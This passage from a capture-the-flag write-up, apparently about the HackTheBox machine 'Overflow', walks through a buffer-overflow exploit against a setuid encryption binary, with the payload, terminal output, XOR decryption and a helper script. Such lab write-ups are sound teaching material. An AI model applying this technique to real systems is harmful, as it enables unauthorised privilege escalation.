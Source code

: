 #### Encrypt Non-Root File

At this point I have what I need to encrypt a non-root file. Because I'm
lucky, the address of `encrypt` is all ASCII character, I can just type
in the exploit:



    tester@overflow:/opt/file_encrypt$ echo "Hello world" > /tmp/0xdf
    tester@overflow:/opt/file_encrypt$ python3 -c 'print("A"*44 + "\x5b\x58\x55\x56")'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    tester@overflow:/opt/file_encrypt$ ./file_encrypt 
    This is the code 1804289383. Enter the Pin: -202976456
    name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Enter Input File: /tmp/0xdf
    Enter Encrypted File: /tmp/0xdf-enc
    Segmentation fault (core dumped)



It core dumps because it doesn't have anything to return to coming out
of `encrypt`. Still, `/tmp/0xdf-enc` is there owned by root:



    tester@overflow:/opt/file_encrypt$ ls -l /tmp/0xdf-enc 
    -rw-rw-r-- 1 root tester 12 Sep 30 06:25 /tmp/0xdf-enc



Better yet, if I XOR each byte by 0x9b, I get the original message:



    tester@overflow:/opt/file_encrypt$ python3
    Python 3.6.9 (default, Jan 26 2021, 15:33:00) 
    [GCC 8.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> with open('/tmp/0xdf-enc', 'rb') as f:
    ...     enc = f.read()
    ... 
    >>> enc
    b'\xd3\xfe\xf7\xf7\xf4\xbb\xec\xf4\xe9\xf7\xff\x91'
    >>> print(''.join([chr(c^0x9b) for c in enc]))
    Hello world



I'll write a quick helper script that prints the output needed to run
the exploit:



    #!/usr/bin/env python3

    import sys


    print("-202976456")
    print("A"*44 + "\x5b\x58\x55\x56")
    print(sys.argv[1])
    print(sys.argv[2])

